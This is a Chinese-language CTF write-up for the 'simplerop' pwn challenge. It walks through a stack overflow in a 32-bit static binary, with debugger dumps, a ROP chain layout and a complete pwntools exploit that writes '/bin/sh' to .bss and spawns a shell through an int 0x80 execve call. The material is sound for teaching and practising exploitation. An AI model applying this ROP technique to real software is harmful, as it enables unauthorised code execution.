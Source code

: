```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240104201935763](../assets/img/old_imgs/image-20240104201935763.png)

- `int 0x80`调用系统函数
- `.bss`段控制
- `32`位参数控制

1. 在主函数中存在溢出,但是栈空间并不准确,需要动态调试计算

```shell
pwndbg> telescope $ebp
00:0000│ ebp 0xffffcf28 —▸ 0x80495f0 (__libc_csu_fini) ◂— push ebx
01:0004│     0xffffcf2c —▸ 0x804903a (__libc_start_main+458) ◂— mov dword ptr [esp], eax
02:0008│     0xffffcf30 ◂— 0x1
03:000c│     0xffffcf34 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
04:0010│     0xffffcf38 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcf3c ◂— 0x0
06:0018│     0xffffcf40 ◂— 0x0
07:001c│     0xffffcf44 —▸ 0x80481a8 (_init) ◂— push ebx
pwndbg> telescope $esp
00:0000│ esp 0xffffcef0 ◂— 0x0
01:0004│     0xffffcef4 —▸ 0xffffcf0c ◂— 0x41414141 ('AAAA')
02:0008│     0xffffcef8 ◂— 0x64 /* 'd' */
03:000c│     0xffffcefc —▸ 0x80495d2 (__libc_csu_init+130) ◂— add ebp, 1
04:0010│     0xffffcf00 ◂— 0x1
05:0014│     0xffffcf04 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
06:0018│     0xffffcf08 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
07:001c│ ecx 0xffffcf0c ◂— 0x41414141 ('AAAA')
```

得到距离返回地址`0x20`个距离

2. 程序中没有`system`函数也没有`/bin/sh`字符,都需要自己构造

   - 通过`int 0x80`系统调用`execve`构造`shell``

     `int80(11,"/bin/sh",null,null)`构造这样的`payload`,`11`代表了`execve`函数,在这里函数参数的传递和一般`32`位程序函数传参不同,是通过寄存器传参的,从左到右分别为`eax,ebx,ecx,edx`

   - 通过往`.bss`段上写入`/bin/sh`再调用得到`/bin/sh`

     ```shell
     bamuwe@qianenzhao:~$ file simplerop
     simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
     bamuwe@qianenzhao:~$ checksec simplerop
     [*] '/home/bamuwe/simplerop'
         Arch:     i386-32-little
         RELRO:    Partial RELRO
         Stack:    No canary found
         NX:       NX enabled
         PIE:      No PIE (0x8048000)
     ```

     程序中`.bss`段的内存地址每次运行不会改变,所以我们可以动态调试得到地址直接拿来使用

   - 在`ida`中可以看到有一个`read`函数,我们可以用它来实现往`.bss`段上的写入

     ![image-20240104203253599](../assets/img/old_imgs/image-20240104203253599.png)

     > 有点不一样但是一样

3. 构造`payload`得到`shell`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary simplerop --only int
   Gadgets information
   ============================================================
   0x080493e1 : int 0x80
   
   Unique gadgets found: 1
   ```

   得到`int 0x80`地址

   | rbp  |              |          |            |                |
   | :--: | :----------: | :------: | :--------: | :------------: |
   |      |   padding    |          |            |      0x1c      |
   |      |              |          |            |      0x4       |
   |      |  read_addr   |   ret    | 0x0806CD50 |                |
   |      |              | read_ret | 0x0806e850 | read的返回地址 |
   |      |     0x0      |          |            |      arg1      |
   |      |  b'/bin/sh'  |          |            |      arg2      |
   |      |     0x8      |          |            |      arg3      |
   |      | pop_arg_addr |   ret    | 0x0806e850 |                |
   |      |     0x0      |   edx    |            |                |
   |      |     0x0      |   ecx    |            |                |
   |      |   bss_addr   |   ebx    | 0x080EAFBA |                |
   |      | pop_eax_addr |   ret    | 0x080bae06 |                |

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
#io = process('./simplerop')
elf = ELF('./simplerop')
io=gdb.debug('./simplerop')
padding = b'A'*0x20

payload1 = padding + p32(0x0806CD50)+p32(0x0806e850)+p32(0)+p32(0x080eb7c3)+p32(0x8)
payload1 += p32(0x0806e850)+p32(0)+p32(0)+p32(0x080eb7c3)+p32(0x080bae06)+p32(0xb)+p32(0x080493e1)

io.sendlineafter(b'Your input :',payload1)
io.send(b'/bin/sh\x00')
io.interactive()   
```

> 代码可读性真的差,铁铁我爱说实话

踩了一个坑,平时用`plt`的`read`四位之后直接是返回地址,但是这里不同,`read`函数结束后才是`ret`还要重新跳转一次.

这题应该用`ROPgadgets_ropchain`也能过,但是不知道为什么没有成功

> [cmcc_simplerop - 不会修电脑 - 博客园 (cnblogs.com)](https://www.cnblogs.com/bhxdn/p/12330142.html)
>
> [[栈溢出进阶小技巧\] cmcc_simplerop一题多解 - 『脱壳破解区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1821941-1-1.html)

